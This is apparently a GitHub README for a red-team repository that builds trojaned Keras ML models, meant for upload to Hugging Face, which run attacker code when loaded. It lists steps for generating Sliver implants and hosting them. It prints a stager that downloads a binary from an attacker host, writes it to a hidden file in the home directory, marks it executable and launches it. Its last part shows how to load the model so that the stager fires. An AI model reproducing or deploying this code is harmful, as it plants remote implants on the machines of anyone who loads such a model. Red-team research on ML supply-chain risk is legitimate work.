

# malicious_models
using ML models for red teaming 


This code and repo has an accompanying blog post and talk:

https://5stars217.github.io/2023-08-08-red-teaming-with-ml-models/ 


**Here it is in action:** 

[](https://www.youtube.com/watch?v=ghG5BFNC6w0)


##
Steps:
1) generate implants with a framework of your choice. Sliver Implants work well on lLnux, which is likely where this will detonate.

2) host the implant or stager somewhere

3) following the 'using' steps below to put the URLs and filenames in the right place.

## Using Simple_PoC

Modify lines 11 and 17 with your callout location and execution steps. 

More details in blog post. 

Execute the code - this will create a model folder which can be uploaded to hugging face. 

It will contain the bytecode of the exploit and not these python files. 
You will see a training output like this, indicating that it worked and is still generating proper model logic. 




## Using Larger_PoC

Modify line 125 and 131 with your callout location and execution steps. 

This is what is in my b64 in line 131:

```
import os
import sys
import base64
import pickle
import requests
from tensorflow import keras 

r = requests.get("https://attacker.on.aws/", headers={'X-Plat': sys.platform})
dir = os.path.expanduser('~')
file = os.path.join(dir,'.training.bin')
with open(file,'wb') as f:
    f.write(r.content)
exec(base64.b64decode(“ ”)
# Inside the b64 we put this, but encoded:
import os, subprocess
os.chmod(file, 0o755)
try:
    subprocess.Popen([os.path.join(os.path.expanduser('~'),'.training.bin')], start_new_session=True)
except:
    pass
```
## Using the built model

Most model pipelines wo'nt have trouble runnign this model, to test locally, you can do this: 

predict.py:

 - Update the model name and data to match the defined input shape in your PoC code.

```
import numpy as np

from tensorflow import keras


model = keras.models.load_model("model_opendiffusion")

data = np.random.random((1, 32, 32, 3))

print(model.predict(data).squeeze())
``` 
